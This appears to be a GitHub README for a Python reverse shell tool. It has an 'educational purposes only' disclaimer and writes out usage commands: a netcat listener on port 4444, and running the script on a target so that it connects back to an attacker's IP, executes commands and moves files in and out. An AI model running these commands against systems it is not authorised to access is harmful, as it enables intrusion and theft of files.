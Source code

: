 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Guruh-dev/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
python3 reverse_shell.py
python3 reverse_shell.py server --port 4444
nc -lvp <target_port>
whoami
user
upload example.txt
download example.txt
cd /tmp
exit

## Example Interaction
1. Attacker's Machine:

Set up the listener:
nc -lvp 4444
2. Target Machine:

Run the script:
python3 reverse_shell.py 192.168.1.100 4444

3. Attacker's Machine:

Send a command:
whoami

Receive the output:
user


